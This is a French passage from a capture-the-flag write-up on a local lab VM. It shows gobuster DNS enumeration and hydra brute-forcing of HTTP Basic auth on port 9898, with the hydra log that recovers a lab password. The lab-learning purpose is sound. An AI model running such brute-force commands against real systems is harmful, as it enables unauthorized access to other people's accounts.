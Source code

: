 La réponse est donc non. Je me suis ensuite penché sur le port 80 et j'ai trouvé via énumération le dossier */website* qui correspond à une copie de [ce template de facture en HTML](https://github.com/sparksuite/simple-html-invoice-template).  

Contenu statique donc rien à en tirer là non plus. Il ne nous reste qu'à voir ce qu'on peut tirer du port 9898 qui sert un Apache.  

On tombe sur une demande d'authentification Basic mais à ce stade on ne dispose ni d'un nom d'utilisateur ni d'un mot de passe. J'ai testé les couples classiques (*admin / admin*, *test / test*, etc) mais aucun n'a fonctionné.  

On serait tenté de lancer Hydra dessus avec une liste d'utilisateurs, une bonne wordlists pour les mots de passe et un gros parallélisme :  

```plain
$ hydra -t 50 -L unix_users.txt -P rockyou.txt http-head://192.168.56.26:9898
[STATUS] 25113.00 tries/min, 25113 tries in 00:01h, 2409831903 to do in 1599:20h, 50 active
```

Okayyyyyy ! Non, je n'ai pas 1600 heures à tuer...  

J'ai alors refouillé sur ce satané port 80 en énumérant toutes les extensions de fichiers qui me semblaient intéressantes, j'ai brute forcé les hôtes virtuels (sans suffixe puisque l'on n'en a pas), brute forcé aussi les noms d'hôtes sur le DNS :  

```bash
$ gobuster dns -d '' -r 192.168.56.26 -w alexaTop1mAXFRcommonSubdomains.txt
```

J'ai utilisé l'astuce consistant à calculer l'adresse IPv6 link-local depuis l'adresse MAC, ce qui me donne *fe80::a00:27ff:fe6d:fe44* mais les ports ouverts étaient les même.  

J'ai écouté sur l'interface réseau comme c'était le cas pour [Snowtalks Medium](http://devloop.users.sourceforge.net/index.php?article264/solution-du-ctf-snowtalks-medium-de-iamv1nc3nt) mais ça n'a rien donné.  

A ce stade autant dire que la seule solution fut d'abandonner et ouvrir la VM pour voir ce qui cloche. J'ai ainsi découvert un fichier *.htpasswd* avec un hash associé à l'utilisateur *web*.  

C'était l'information qui nous manquait et dont on aurait du disposer pour éviter d'attendre 1600 heures !  

Rue du password
---------------

A vrai dire une fois qu'on dispose du nom d'utilisateur ce n'est pas la joie non plus :  

```plain
$ hydra -t 50 -l web -P rockyou.txt http-head://192.168.56.26:9898                     
Hydra v9.2 (c) 2021 by van Hauser/THC &amp; David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway). 

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-02-10 09:33:23 
[WARNING] You must supply the web page as an additional option or via -m, default path set to / 
[WARNING] http-head auth does not work with every server, better use http-get 
[DATA] max 50 tasks per 1 server, overall 50 tasks, 14344387 login tries (l:1/p:14344387), ~286888 tries per task 
[DATA] attacking http-head://192.168.56.26:9898/ 
[STATUS] 25063.00 tries/min, 25063 tries in 00:01h, 14319324 to do in 09:32h, 50 active 
[STATUS] 26401.00 tries/min, 79203 tries in 00:03h, 14265184 to do in 09:01h, 50 active 
[STATUS] 24924.29 tries/min, 174470 tries in 00:07h, 14169917 to do in 09:29h, 50 active 
[STATUS] 26064.53 tries/min, 390968 tries in 00:15h, 13953419 to do in 08:56h, 50 active 
[STATUS] 26574.39 tries/min, 823806 tries in 00:31h, 13520581 to do in 08:29h, 50 active 
[9898][http-head] host: 192.168.56.26   login: web   password: webpassword 
1 of 1 target successfully completed, 1 valid password found 
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-02-10 10:17:16
```
